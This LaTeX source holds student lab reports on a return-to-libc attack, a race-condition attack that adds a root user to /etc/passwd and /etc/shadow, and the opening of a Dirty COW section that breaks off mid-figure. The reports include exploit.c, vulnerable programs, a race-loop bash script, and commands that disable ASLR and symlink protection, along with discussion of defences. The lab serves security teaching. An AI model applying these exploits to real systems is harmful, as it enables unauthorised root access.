	
\begin{tikzpicture}
	\draw[fill=green!30]  (-2,4)  rectangle node {Data for main()} (3.4,2.1);
	\draw[fill=gray!20]  (-2,2.1) rectangle node[text width=6.2cm,align=center] {\small \st{ Arguments for sub()}\\ Unused data}(3.4,1);
	\draw[fill=yellow!20]  (-2,1) rectangle node {\st{Return Address} Old EBP}(3.4,0.3);
	\draw[<-, line width=0.3mm](3.1,0.65) -- node[black,midway,xshift=1.2cm,yshift=-0mm] {\footnotesize \texttt{system()}} (3.8,0.65);
	\draw[<-,line width=0.3mm](3.45,0.3) -- (4.4,0.3) node[black,midway,xshift=1.6cm] {ESP=EBP};
	\draw[fill=gray!20]  (-2,0.3) rectangle node {\st{Old EBP} Free area}(3.4,-0.4);
	\draw[fill=gray!20]  (-2,-0.4) rectangle node {\st{Data for sub()} Free area}(3.4,-2.3);
	\draw(8.8,4) node[text width=3cm,align=left] {High Address}  (8.8,0.85) node[text width=3cm,align=left] {Stack's growing\\ direction}  (8.8,-2.3) node[text width=3cm,align=left] {Low Address};
	\draw[->,line width=0.5mm](7,4) -- (7,-2.3);
	\draw [decorate,decoration={brace,amplitude=6pt},xshift=-4pt,yshift=0pt]
	(-2.1,2.1) -- (-2.1,4) node [black,midway,xshift=-1cm] {\footnotesize main()};
	\end{tikzpicture}
	\caption{Stack Component \& Pointer Locations}
\end{figure}
It is known that the old \texttt{EBP} value is the value of the previous stack pointer, therefore \texttt{EBP + 4} must contain the return address for the \texttt{system} function. To allow the execution to exit gracefully without an error being thrown to the user, the \texttt{exit} function is executed. This function can also be found in the libc library. We know that arguments for the function is stored above the return address. The \texttt{system} command only takes in one argument, \texttt{const char *command}. Therefore the location of the program to be executed, \texttt{/bin/sh} must be stored in the address \texttt{EBP + 8}. The operations required on the stack for the attack to be successful can be summarised into Figure 4.
\begin{figure}[H]
	\centering
	
\begin{tikzpicture}
	\draw[fill=gray!20]  (-2,4.3)  rectangle node {Irrelevant data (Data for main())} (5.6,2.4);
	\draw[fill=yellow!20]  (-2,2.4) rectangle node[text width=6.2cm,align=center] {Address of \texttt{/bin/sh}}(5.6,1.7);
	\draw (-2.25,1.7) -- (-2,1.7);
	\draw[fill=yellow!20]  (-2,1.7) rectangle node[text width=6.2cm,align=center] {exit()}(5.6,1);
	\draw[fill=yellow!20]  (-2,1) rectangle node {Return Address $\rightarrow$ Address of \texttt{system}}(5.6,0.3);
	\draw[fill=gray!20]  (-2,0.3) rectangle node {Irrelevant data (Copied from buffer)}(5.6,-2.3);
	\draw(8.2,4) node[text width=3cm,align=left] {High Address}  (8,0.85) node[text width=3cm,align=left] {Stack's growing\\ direction}  (8,-2.3) node[text width=3cm,align=left] {Low Address};
	\draw[->,line width=0.5mm](6.2,4.3) -- (6.2,-2.3);
	\draw [decorate,decoration={brace,amplitude=6pt},xshift=-4pt,yshift=0pt]
	(-2.1,1.7) -- (-2.1,4.3) node [black,midway,xshift=-1cm] {\footnotesize main()};
	\draw [decorate,decoration={brace,amplitude=6pt},xshift=-4pt,yshift=0pt]
	(-2.1,-2.3) -- (-2.1,1.7) node [black,midway,xshift=-1cm] {\footnotesize sub()};
	\draw [decorate,decoration={brace,amplitude=6pt},xshift=-4pt,yshift=0pt]
	(-2.4,0.3) -- (-2.4,2.4) node [black,midway,xshift=-1cm] {\footnotesize system()};
	\draw (-2.55,2.4) -- (-2.35,2.4);\draw[densely dotted] (-2.35,2.4) -- (-2,2.4);
	\draw (-2.55,0.3) -- (-2.35,0.3);\draw[densely dotted] (-2.35,0.3) -- (-2,0.3);
	\end{tikzpicture}
	\caption{Stack Component after \texttt{system} Call}
\end{figure}
\newpage
\section{Vulnerability Exploit}
\subsection{VM Preparation}
\vspace{1em}
\begin{enumerate}
	\item \textbf{Address Space Layout Randomization (ASLR)} \begin{par}ASLR is a protection feature that randomizes the starting address location of the heap and stack. This ensures that the execution address is not deterministic and easily exploited by the hacker. For this lab, we switch this protection off to easily simulate an attack. The following code disables the feature:
		\begin{verbatim}
		$ su
		# sysctl -w kernel.randomize_va_space=0
		\end{verbatim}
	\end{par}
	\item \textbf{StackGuard Protection}\begin{par}The GCC compiler includes a protection mechanism called \textit{StackGuard} to detect and prevent buffer overflows. This mechanism checks if the information on the stack such as the return address have been overwritten and prevent the execution of instructions thereafter. This protection is temporarily disabled by declaring the following switch \texttt{-fno-stack-protector} when compiling with GCC.\begin{verbatim}
		$ gcc -fno-stack-protector someprog.c\end{verbatim}
	\end{par}
	\item \textbf{Non-Executable Stack}\begin{par}Newer operating systems have support for \textit{No-eXecute}, or \textit{NX} for short. Regions that are marked are non-executable will not be processed by the processor. This is a feature that is built into modern CPUs and toggled in the motherboard settings, known as \textit{eXecute Disable (XD)} on Intel or \textit{Enhanced Virus Protection} on AMD systems. The default setting for the stack in our VM is  \textbf{non-executable}. Attempting to overwrite the stack will throw an exception to the user. \\\\In this lab, we explicitly set the stack to be executable using the following code when compiling with GCC:
		\begin{verbatim}
		$ gcc -z execstack -o someprog someprog.c
		\end{verbatim}
	\end{par}
	\item \textbf{Vulnerable Program}\begin{par}
		The lab provides two \texttt{C} code, one of which is a \texttt{Set-UID} program and the other is to write the file that is needed to implement the buffer. The code has been attached to the \hyperref[App]{Appendix}.\end{par}
\end{enumerate}
\subsection{Creating the \texttt{BADFILE}}
To create the file to exploit the buffer overflow vulnerability, we need to refer to Figure 4 to understand which section should be overwritten. We are given the following code to fill up.
\begin{minted}{C}
*(long *) &buf[X] = some address; // "/bin/sh"
*(long *) &buf[Y] = some address; // "system()"
*(long *) &buf[Z] = some address; // "exit()"
\end{minted}
To find the address of \texttt{system} and \texttt{exit}, we first compile both files and run. As we have set address randomisation to the off state, the address will not change with every execution.

\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{norandadd}
	\caption{No Address Randomisation}
	\label{fig:norandadd}
\end{figure}
\noindent The address is obtained within \texttt{gdb} by using the command \texttt{p <function>}, where the function name is \texttt{system} and \texttt{exit}.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{sysexitadd}
	\caption{\texttt{system} and \texttt{exit} Address}
	\label{fig:sysexitadd}
\end{figure}
For \texttt{/bin/sh}, there are two methods to obtain the address.
\begin{enumerate}
	\item The first would be to create an environment variable. In this instance, we use \texttt{MYSHELL} as the name of the environment variable. It is exported into the environment using the following command.
	\begin{verbatim}
	$ export MYSHELL = /bin/sh
	\end{verbatim}
	To obtain the address where this variable is located, there are an additional two methods that can be used.
	\begin{enumerate}
		\item The following \texttt{C} code can be written to print the address containing the variable.
		\begin{minted}{C}
void main(){
    char* shell = getenv("MYSHELL");
    if(shell)
    printf("%x\n", (unsigned int) shell);
}
		\end{minted}
		
		\begin{figure}[H]
			\centering
			\includegraphics[width=0.9\linewidth]{envaddr}
			\caption{Using \texttt{C}}
			\label{fig:envaddr}
		\end{figure}
		\item \texttt{GDB} can be used to find the address of the environment variable, which can be executed by the following line of code.
		\begin{verbatim}
		x/100s *((char **) environ)
		\end{verbatim}
		The output will be the strings located in the environment with the respective addresses.
		\begin{figure}[H]
			\centering
			\includegraphics[width=0.9\linewidth]{environadd}
			\caption{Using \texttt{gdb}}
			\label{fig:environadd}
		\end{figure}
		
		
	\end{enumerate}
	However, it is important to take note that the exact address cannot be used as the string ``MYSHELL'' will be in that location. The offset is calculated based on how many ASCII characters are required from the back. In this instance the offset obtained is $+6$. The address to be used will therefore be \texttt{0xBFFFFE8A}.\\\\
	Using an incorrect offset will not allow the argument to be passed into \texttt{system} properly and will display an error.
	\begin{figure}[H]
		\centering
		\includegraphics[width=0.9\linewidth]{envaddoff}
		\caption{Incorrect Offset}
		\label{fig:envaddoff}
	\end{figure}
	\item It is also known that there exists an instance of the \texttt{/bin/sh} string in the \texttt{C} library. It can be used instead and is much simpler to obtain the address. To do so, we need to enter \texttt{gdb} and run the program first. \\\\The \texttt{find} command can be used and the following line of code searches the memory to obtain the address of \texttt{/bin/sh}.
	\begin{verbatim}
	find &system, +99999999, "/bin/sh"
	\end{verbatim}
	The address obtained can be directly inserted into our exploit code without any modification.
	\begin{figure}[H]
		\centering
		\includegraphics[width=0.9\linewidth]{binshloc}
		\caption{Exact Address Obtained}
		\label{fig:binshloc}
	\end{figure}
	
\end{enumerate}
The values of X, Y and Z now need to be determined to ensure that the correct components are overwritten by the buffer overflow. The program is run in \texttt{gdb} again and the buffer is printed out, which is shown in Figure 11.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{buffnooflow}
	\caption{Buffer Output}
	\label{fig:buffnooflow}
\end{figure}
\noindent Analysis of the buffer indicates that address \texttt{0xbffff360} contains the pointer to the file. With reference to the buffer overflow lab stack layout, address \texttt{0xbffff35b} must contain the return address for the function. Therefore the offset required to overwrite the return address is 24, which is where the location of \texttt{system} will be. The address of \texttt{/bin/sh} and \texttt{exit} will overwrite the regions with the offset of 32 and 28 respectively. i.e. X $\rightarrow$ 32, Y $\rightarrow$ 24, Z $\rightarrow$ 28.\\\\Executing the program after compiling and re-creating the \texttt{BADFILE} now allows us to obtain root shell.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{rtlcroot}
	\caption{Root Access}
	\label{fig:rtlcroot}
\end{figure}
\subsection{Change of Program Name}
In this subsection, we look into the effects of renaming the program with a different length. To do so, we execute the following line of command.
\begin{verbatim}
$ mv retlib returntolibc
\end{verbatim}
Execution of the command yields the following results:
\begin{enumerate}
	\item If the address of the \texttt{/bin/sh} is based on the environment variable, then the execution will fail as the string has been shifted from the previous address. As the name of the program being executed being reflected in the environment variables is stored in a higher memory address, all of the environment variables in the stack with a lower memory address will be affected by this shift. The differences in the address can be seen from Figure 8 and Figure 13.
	\begin{figure}[H]
		\centering
		\includegraphics[width=0.9\linewidth]{addshift}
		\caption{Address Shifted}
		\label{fig:addshift}
	\end{figure}
	\item If the address of the \texttt{/bin/sh} is based on the \texttt{C} library, then there will be no impact as the address remains the same.
\end{enumerate}
\subsection{Address Randomisation}
This subsection will focus on the protection mechanism involving address randomisation. To turn on this feature, we use the following lines in Terminal.
\begin{verbatim}
$ su
# sysctl -w kernel.randomize_va_space=2
# exit
\end{verbatim}
When the program is run without any modifications, we get the error ``Segmentation fault (core dumped)''. When \texttt{gdb} is used to debug the program, we note that the address of \texttt{/bin/sh} in the environment and the \texttt{C} library has changed. The same can be mentioned for the \texttt{system} and \texttt{exit} functions.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{randadd}
	\caption{Random Address}
	\label{fig:randadd}
\end{figure}
\noindent It is difficult to guess or predict a single address during the next instance of program execution, let alone three separate addresses. Although if we were to strictly use the \texttt{/bin/sh} from the \texttt{C} library, we can calculate the distance between the functions. To be specific, the distance between \texttt{system} and \texttt{/bin/sh} is $+1186696_{10}$ and the distance between \texttt{system} and \texttt{exit} is $-50304_{10}$. To guess the address, there is a probability of $\frac{1}{2^{29}}$ as the current VM environment has been set to use 512MB of RAM. However, the probability of obtaining a correct guess is still considered to be negligible.
\subsection{StackGuard}
Similar to the buffer overflow lab, the StackGuard feature introduces a canary value which checks whether the return address has been modified. As such, the program will terminate with an error ``stack smashing detected''.
\newpage
\section{Appendix}
\label{App}
\subsection{Return to LibC: \texttt{retlib.c}}
\begin{minted}{C}
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bof (FILE *badfile)
{
    char buffer[12];
    /* The following statement has a buffer overflow problem */
    fread(buffer, sizeof(char), 40, badfile);

    return 1;
}

int main(int argc, char **argv)
{
    FILE *badfile;
    badfile = fopen("./badfile", "r");
    bof(badfile);

    printf("Returned Properly\n");

    fclose(badfile);
    return 1;
}
\end{minted}
\newpage
\subsection{Buffer Write Operation: \texttt{exploit.c}}
\begin{minted}{C}
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
    char buf[40];
    FILE *badfile;

    badfile = fopen("./badfile","w");

/* Need to determine the addresses */

    *(long *) &buf[32] = 0xb7f80fb8;
    *(long *) &buf[24] = 0xb7e5f430;
    *(long *) &buf[28] = 0xb7e52fb0;

    fwrite(buf, sizeof(buf), 1, badfile);
    fclose(badfile);
}

\end{minted}

%%%%%%%%%%%%% PDF 6 %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\begin{titlepage}
	\begin{center}
		\vspace*{27em}
		\Huge
		\textbf{Race Condition Vulnerability\\}		
		\vfill
	\end{center}
\end{titlepage}

\pagenumbering{roman}
\newpage
\pagenumbering{arabic}
\setcounter{section}{0}
\section{Introduction}
A race condition is a vulnerability where multiple processes access and manipulate data concurrently. The result is dependent on the order of access. Attackers  can use a privileged program that has this vulnerability while running another program to ``race'', with the end result being the alteration of program that will otherwise be restricted.
\section{Overview}
This lab will look at a program that has the race condition vulnerability, to exploit this vulnerability
as well as to look at current protection schemes available to prevent such an occurrence. We will look at two files, \texttt{/etc/shadow} and \texttt{/etc/passwd}. Both are system files where \texttt{/etc/passwd} is world-readable but only writable by root. This file contains the user name, encrypted password, UID, login shell location among other things. The other system file \texttt{/etc/shadow} is only readable and writable by the root user as this file holds the required information to validate the user's password.\\\\The formats of the two files is described below.\\\\
{\underline{\texttt{/etc/passwd\qquad\qquad\qquad\qquad\qquad\qquad}}}
\begin{table}[h!]
	\flushleft
	\begin{tabular}{ccccccccccccc}
		root & : & x & : & 0 & : & 0 & : & root & : & /root & : & /bin/bash \\ \cline{1-1} \cline{3-3} \cline{5-5} \cline{7-7} \cline{9-9} \cline{11-11} \cline{13-13} \\[-2ex]
		\circled{1}    &   & \circled{2} &   & \circled{3} &   & \circled{4} &   & \circled{5}    &   & \circled{6}     &   & \circled{7}       
	\end{tabular}
\end{table}\\
\circled{1} Username\\\circled{2} Password, ``x'' denotes that the encrypted password is stored in \texttt{/etc/shadow}\\\circled{3} UID (User ID)\quad \circled{4} GID (Group ID)\quad \\\circled{5} User ID Info, allows commenting to add extra information on the user.\quad \\\circled{6} Home Directory\quad \circled{7} Directory to shell
\\\\
{\underline{\texttt{/etc/shadow\qquad\qquad\qquad\qquad\qquad\qquad}}}
\begin{table}[h!]
	\flushleft\setlength\tabcolsep{1pt}
	\begin{tabular}{cccccccccccccccccccc}
		user1 & :\$ & 6 & \$: & edXn24E2 & \$ & uPYHGc.DOese01 & : & 17540 & : & 0 & : & 99999 & : & 7 &: & &:& & :\\
		\cline{1-1} \cline{3-3} \cline{5-5} \cline{7-7} \cline{9-9} \cline{11-11} \cline{13-13} \cline{15-15} \cline{17-17} \cline{19-19} \\[-2ex]
		\circled{1}    &   & \circled{2} &   & \circled{3} &   & \circled{4} &   & \circled{5}    &   & \circled{6}     &   & \circled{7} & &  \circled{8}    &   & \circled{9}     &   & \circled{10}
	\end{tabular}
\end{table}\\
\circled{1} Username\\\circled{2} - \circled{4} Encrypted Password in the form \texttt{\$ id \$ salt \$ hash}, where \texttt{id} can be one of the following:
\begin{enumerate}[itemsep=0mm]
	\item \$1\$ uses MD5
	\item \$2a\$ uses Blowfish (BCrypt specification with modifications)
	\item \$2x\$ uses Blowfish (Consists of a bug handling the $8^{th}$ bit)
	\item \$5\$ uses SHA-256
	\item \$6\$ uses SHA-512
\end{enumerate}
\circled{5} Last password change, counted in days from January 1, 1970 \\\circled{6} Minimum number of days between password changes \\\circled{7} Maximum number of days the current password is valid \\\circled{8} Number of days before warning user to change password\\\circled{9} Inactive account due to expired password \\\circled{10} Expired account, counted by number of days from January 1, 1970.
\section{Vulnerability Exploit}
\subsection{VM Preparation}\vspace{1em}
\begin{enumerate}
	\item \textbf{Sticky Symlinks}\begin{par}This protection feature prevents the symlinks from being accessed if the follower and directory owner does not match the symlink owner. This is applicable for world-writable directories such as \texttt{/tmp}. In this lab, we disable this protection feature by running the command in superuser.
		\begin{verbatim}
		# sysctl -w kernel.yama.protected_sticky_symlinks=0\end{verbatim}
	\end{par}
	\item \textbf{Snapshot}\begin{par}
		As this lab will deal with modification of system files affecting user login and credentials, a snapshot is created in the event that a mishap occurs. This will allow the state of the VM to be reverted to the stage before the lab and reducing the amount of work required to re-prepare the VM.\end{par}
\end{enumerate}
\newpage
\subsection{Exploiting Vulnerability}
The vulnerable program is first compiled as a \texttt{Set-UID} program and stored in the \texttt{/tmp} folder, where it is world-readable. The source code for the program has been attached in the \hyperref[Appsec:3.2]{Appendix}. Another program is needed to exploit this vulnerability. The properties of symbolic links (symlink) will be used and because rapid and repeated linking and unlinking is required, a while loop is used. This program will additionally output the current file symlink location so we will be able to determine whether the linking is in effect.\\\\A bash script is used to repeatedly execute the vulnerable program and to emulate a heavy workload where accessing and modifications to privileged files are frequent.\\\\The \texttt{/etc/passwd} file is tested to be modified first. The vulnerable program is run, followed by the program to repeatedly create and destroy symlinks. During the process, we obtain a lot of errors where the program will not be able to write into the privileged files.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{noperm}
	\caption{Cannot Open File}
	\label{fig:noperm}
\end{figure}
\noindent In another terminal screen, we see the rapid switching of symlink endpoints. This shows that the attacking program is working as expected.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{rapidswitch}
	\caption{Rapid symlink Switching}
	\label{fig:rapidswitch}
\end{figure}
\noindent After some time, the bash script will stop running and show that the file has been modified. Upon inspection of the \texttt{/etc/passwd} file, the entry of an additional user account has been added. The last line in Figure 4 proves that the file has been modified to add our malicious user with user id 0 (root).
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{editsuccess}
	\caption{Bash Stops After File Modified}
	\label{fig:editsuccess}
\end{figure}
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{passwdedit}
	\caption{Malicious User Added}
	\label{fig:passwdedit}
\end{figure}
\noindent We inspect our temporary file and find that the many repeated entries in the file were the failed attempts in trying to write into the privileged file during the symlink switching.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{tmpfile}
	\caption{Temporary File Contents}
	\label{fig:tmpfile}
\end{figure}
\noindent Before we are able to gain access to the account, the steps must be repeated for the \texttt{/etc/shadow} file. It is important to note that the \texttt{shadow} has a stricter privilege requirement and does not allow any non-root user to view the contents of the file, unlike the \texttt{passwd} file. Using the \texttt{cat} command as a standard user will throw the error ``Permission denied'' when reading \texttt{shadow}.\\\\The file containing the information to insert is edited and the program is run again. This time the success prompt is also shown after a few minutes. The file is examined with superuser and the specified data can be found inside the file.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{shadowedit}
	\caption{File \texttt{shadow} Modified}
	\label{fig:shadowedit}
\end{figure}
\noindent To determine whether the procedure has been successful, we log in to our newly created user using the command \texttt{su <username>}. If successful, we will obtain root access. To check further, we navigate to the home directory of the user and print out the current directory using the command \texttt{pwd}.
\begin{verbatim}
$ su hacked
# cd ~
# pwd
\end{verbatim}
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{hackedpwd}
	\caption{Root Access Obtained Using Existing Password}
	\label{fig:hackedpwd}
\end{figure}
From Figure 7, root access has been obtained and without the need of knowing the current system's superuser account. This exploit is fast to implement and the concept is simple. The next subsection will look into the difficulty of executing the same type of attack against introduction of additional guards for race conditions.
\subsection{Inode Checking}
To ensure it is harder for race conditions to be exploited, additional measures were implemented such as checking of inodes multiple times. These are cross-checked to ensure that the file being accessed is the same. The modifications to the vulnerable program have been attached in a separate subsection in the \hyperref[Appsec:3.3]{Appendix}.\\\\Even after the modifications and the programs are executed, we are still able to obtain a modified file. As we are not able to tell the order of execution of commands, it may be possible to obtain a modified privileged file although it may take a longer period of time to successfully pass all the checks.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{hacked2x}
	\caption{Successful Despite Additional Protection}
	\label{fig:hacked2x}
\end{figure}
\subsection{Least Privilege}
The Principle of Least Privilege prevents the use of privileged access unless required and relinquished immediately after that. This prevents extended periods of access and loopholes being exploited when upgraded privileges are not required for the operation.\\\\In this task, we add a few lines to the code mainly to change the \texttt{euid} of the user. To restrict file access, \texttt{seteuid(getuid())} is used to forcibly downgrade the privileges of the user. The privileges are restored to root by using \texttt{seteuid(0)}. As the respective lines are added to the beginning and end of the program, the program will never be able to write into privileged files. This is due to the program not being able to access or open the file due to downgraded privileges. As such, this form of race condition exploit can be eliminated by carefully adjusting the access rights accordingly in the process of program execution.
\subsection{Sticky Symlinks Protection}
In this task, we look at the built-in protection scheme against following symlinks. Ubuntu versions 11.04 and above come with a built-in protection scheme against race condition attacks by activating sticky symlinks.\vspace{0.7em}
\begin{verbatim}
# sysctl -w kernel.yama.protected_sticky_symlinks=1
\end{verbatim}
\vspace{0.7em}
We perform the symlink this time pointing \texttt{"/tmp/XYZ"} to \texttt{"/home/seed/tmpfile"}. We note that the symlink is owned by the user, the euid is root and the directory is owned by root (since \texttt{"/tmp"} is world-writable). 
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{symlinkperm}
	\caption{Symlink To Another User Controlled Directory}
	\label{fig:symlinkperm}
\end{figure}

\noindent If we were to execute the program, we will get ``Segmentation fault (core dumped)''. This is due to the sticky symlink protection. The symlink will not work if the following condition is satisfied.\\\\euid \texttt{==} Directory Owner \&\& euid\texttt{!=} Symlink Owner
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{symerror}
	\caption{Cannot Follow Symlink}
	\label{fig:symerror}
\end{figure}
\noindent \circled{1} This protection works because the euid is root and directory owner is also root, however the symlink owner is a different standard user. As a result, the symlink will never work when the sticky symlink option is turned on.
\\\\\circled{2} This is a good protection as it prevents world-writable folders such as \texttt{/tmp} to be used to mount a race condition exploit against privileged files. Furthermore, this also prevents files of other users from being modified as well.
\\\\\circled{3} The limitations of this scheme involve the actual root user being denied from being able to access user created symlinks although root users are supposed to be able to have full control of the system. Users opening up their own files through using their own symlinks will find that it is not possible if these users are using \texttt{Set-UID} programs. The following table shows the two conditions that users and root will be denied access if the symlink is created by a different user.
% Please add the following required packages to your document preamble:
% \usepackage[table,xcdraw]{xcolor}
% If you use beamer only pass "xcolor=table" option, i.e. \documentclass[xcolor=table]{beamer}
\begin{table}[H]
	\centering
	\label{symtab}
	\bgroup
	\def\arraystretch{1.3}
	\begin{tabular}{|c|c|c|c|}
		\hline
		euid & Directory Owner & Symlink Owner & fopen() \\ \hline
		seed & seed            & seed          & Allowed \\ \hline
		\rowcolor[HTML]{fffe65}
		seed & seed            & root          & Denied  \\ \hline
		seed & root            & seed          & Allowed \\ \hline
		seed & root            & root          & Allowed \\ \hline
		root & seed            & seed          & Allowed \\ \hline
		root & seed            & root          & Allowed \\ \hline
		\rowcolor[HTML]{fffe65} 
		root & root            & seed          & Denied  \\ \hline
		root & root            & root          & Allowed \\ \hline
	\end{tabular}
	\egroup
	\caption{Table of Symlinks Access Rights}
\end{table}

\newpage
\section{Appendix}
\subsection{Vulnerable Program: \texttt{vulp.c}}
\label{Appsec:3.2}
\begin{minted}{C}
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main()
{
    char* fn = "/tmp/XYZ";
    //char buffer[300]; //For /etc/shadow
    char buffer[60]; //For /etc/passwd
    FILE *fp;
    //originaleuid = geteuid(); //For task 3

    //seteuid(getuid); //For task 3
    /* Get user input */
    //scanf("%270s", buffer); //For /etc/shadow
    scanf("%50s", buffer); //For /etc/passwd

    if(!access(fn, W_OK)){
        fp = fopen(fn, "a+");
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    }
    else printf("No permission \n");
    //seteuid(originaleuid); //For task 3
}
\end{minted}
\subsection{Bash script}
*The bash script, when created via Terminal usually has permission 664. The permission must be changed to 164, 364 or 764 for it to be executable.
\begin{minted}{bash}
#!/bin/sh

old=`ls -l /etc/passwd`
new=`ls -l /etc/passwd`

while [ "$old" = "$new" ]
do
new=`ls -l /etc/passwd`
/tmp/vulp < /tmp/TXTFILE
done
echo "STOP... The passwd file has been changed"
\end{minted}
\newpage
\subsection{Vulnerable Program with Inode Check: \texttt{vulp.c}}
\label{Appsec:3.3}
\begin{minted}{C}
#include <stdio.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <sys/stat.h>

int main()
{
    noperm=1;
    char* fn = "/tmp/XYZ";
    //char buffer[300]; //For /etc/shadow
    char buffer[60]; //For /etc/passwd
    FILE *fp;
    struct stat before, mid, after;

    lstat("/tmp/XYZ", &before);
    /* Get user input */
    //scanf("%270s", buffer); //For /etc/shadow
    scanf("%50s", buffer); //For /etc/passwd
    lstat("/tmp/XYZ", &mid);
    if(!access(fn, W_OK))
    if(!access(fn, W_OK))
    if(!access(fn, W_OK)){
        lstat("/tmp/XYZ", &after);
        if(before.st_ino==after.st_ino && 
        before.st_ino==mid.st_ino){
            fp = fopen(fn, "a+");
            fwrite("\n", sizeof(char), 1, fp);
            fwrite(buffer, sizeof(char), strlen(buffer), fp);
            fclose(fp);
            noperm=0;
        }
    }
    if(noperm) printf("No permission \n");
}
\end{minted}

%%%%%%%%%%%%%%%%%%%%%%%%%%%PDF 1 - Orig order %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\newpage
\begin{titlepage}
\begin{center}
	\vspace*{25em}
	\Huge
	\textbf{Dirty COW (Copy-On-Write) Attack}\\		
	\vfill
\end{center}
\end{titlepage}

\pagenumbering{roman}
\newpage
\pagenumbering{arabic}
\setcounter{section}{0}
\section{Introduction}
The Dirty COW vulnerability is a race condition vulnerability that is able to modify privileged files even without the use of \texttt{Set-UID} programs and even without read access. The exploit relies on the copy-on-write function within the Linux kernel and memory mapping (mmap). This vulnerability has existed in Linux since September 2007 and was discovered and exploited in October 2016.
\section{Overview}
This lab will provide a hands-on experience on exploiting the race condition and understanding the security issues pertaining to general race conditions that have led to the exploitation.
\\\\
The Dirty COW operation firstly involves the loading of the file into the memory in read-only mode. This prevents the memory or the file from being written and modified from an unprivileged user.
\begin{figure}[!h]
\centering
